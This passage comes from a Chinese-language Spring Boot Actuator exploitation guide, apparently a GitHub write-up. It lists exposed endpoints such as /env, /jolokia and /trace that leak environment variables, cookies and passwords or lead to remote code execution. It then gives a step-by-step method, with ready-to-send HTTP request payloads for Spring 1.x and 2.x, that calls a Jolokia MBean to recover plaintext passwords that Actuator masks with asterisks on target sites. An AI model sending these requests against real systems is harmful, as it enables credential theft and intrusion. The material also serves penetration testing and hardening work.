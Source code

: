 其中对寻找漏洞比较重要接口的有：

* `/env`、`/actuator/env`

    GET 请求 `/env` 会泄露环境变量信息，或者配置中的一些用户名，当程序员的属性名命名不规范 (例如 password 写成 psasword、pwd) 时，会泄露密码明文；

    同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，触发相关 RCE 漏洞。

* `/jolokia`

    通过 `/jolokia/list` 接口寻找可以利用的 MBean，触发相关 RCE 漏洞；

* `/trace`

    一些 http 请求包访问跟踪信息，有可能发现有效的 cookie 信息

### [](#0x03获取被星号脱敏的密码的明文-方法一)0x03：获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### [](#利用条件)利用条件：

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）

#### [](#利用方法)利用方法：

##### [](#步骤一-找到想要获取的属性名)步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### [](#步骤二-jolokia-调用相关-mbean-获取明文)步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

* 调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```
